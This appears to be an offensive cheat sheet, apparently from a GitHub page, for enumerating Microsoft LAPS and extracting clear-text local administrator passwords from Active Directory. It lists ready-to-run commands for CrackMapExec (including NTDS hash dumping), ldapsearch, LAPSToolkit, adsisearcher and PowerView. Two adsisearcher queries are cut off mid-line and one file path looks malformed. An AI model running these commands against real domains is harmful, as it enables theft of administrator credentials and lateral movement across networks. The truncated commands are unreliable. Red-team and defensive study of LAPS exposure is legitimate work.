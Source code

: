 # ENUMERATION

#### dir "C:\Program\LAPS\CSE"

#### Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'

#### Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'

#### Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'

### If admpwd.dll exists, then enumeration is successful.

# LAPS PASSWORD EXTRACTION

### The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

#### 1) Get-Command *Admpwd*

#### 2) Find-AdmPwdExtendedRights -Identity *

#### 3) net groups "GROUP_THAT_HAS_ACCESS_TO_LAPS"

#### 4) Get-AdmPwdPassword -ComputerName PC_THAT_HAS_LAPS_ENABLED

## Possible tools: LAPSToolkit, Crackmapexec, ldapsearch

### If a user has access to view the LAPS password, we can use crackmapexec or ldapsearch to dump password:

#### 1) CrackMapExec

 - crackmapexec smb IP_ADDRESS -u USER -p PASSWORD --laps --ntds

#### 2) ldapsearch

 - ldapsearch -h IP_ADDRESS -b 'DC=DOMAIN,DC=LOCAL' -x -D USER@DOMAIN.LOCAL -w 'PASSWORD' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

#### 3) LAPSToolkit

 - Get-LAPSComputers

 - Find-LAPSDelegatedGroups

 - Find-AdmPwdExtendedRights

#### 4) adsisearcher (native binary on Windows 8+)

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))"

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE

#### 5) Powerview

 - Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwd
